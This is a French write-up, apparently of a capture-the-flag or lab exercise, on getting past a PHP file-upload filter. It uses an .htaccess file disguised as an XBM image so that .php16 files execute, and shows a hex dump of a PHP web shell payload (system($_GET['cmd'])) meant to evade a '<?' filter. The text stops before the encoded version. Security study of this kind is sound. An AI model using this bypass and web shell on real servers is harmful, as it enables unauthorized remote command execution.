 La première astuce consiste à trouver un moyen de contourner le vérificateur d'images. La documentation PHP donne une indication sur la marche à suivre : http://php.net/manual/en/function.exif-imagetype.php

En bas de la page un format semble intéressant :

![](/images/bypass-file-upload/2023-10-05-16-42-43.png)

Ok mais qu'est-ce qu'un fichier XBM ?

> X BitMap, abrégé XBM, est un format d'image numérique monochrome originellement conçu pour le système X Window, notamment pour les images de pointeur et d'icône.

La page contient un exemple :

```c
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

Le format de `xbitmap` est assez clair. La taille de l'image est noté sur les premières lignes du fichier à l'aide d'un `#`. Ce format très proche du format `.htaccess` permet de contourner la fonction `exif_imagetype($tmp_name)` du programme.

Voici le contenu du nouveau fichier `..htaccess` :

```bash
#define width 1337                          # Define the width wanted by the code
#define height 1337                         # Define the height

AddType application/x-httpd-php .php16      # Say all file with extension .php16 will execute php

php_value zend.multibyte 1                  # Active specific encoding 
php_value zend.detect_unicode 1             # Detect if the file have unicode content
php_value display_errors 1                  # Display php errors
```

Le fichier est correctement traité et déposé sur le serveur !

![](/images/bypass-file-upload/2023-10-05-16-51-19.png)

## Contourner la protection anti-php

Un autre filtre empêche le dépôt de contenu PHP avec la vérification de la chaine de caractères `<?`. Or, il est possible de contourner cette protection en encodant le payload. 

En effet, PHP supporte plusieurs format d'encodage. Actuellement, l'écriture de base est en utf-8, mais PHP supporte également l'encodage utf-16. 

En utf-8, un caractère est encodé sur 1 octet.

```php
00000000: 3c3f 7068 7020 7379 7374 656d 2824 5f47  <?php system($_G
00000010: 4554 5b27 636d 6427 5d29 3b20 6469 6528  ET['cmd']); die(
00000020: 293b 203f 3e0a                           ); ?>.
```
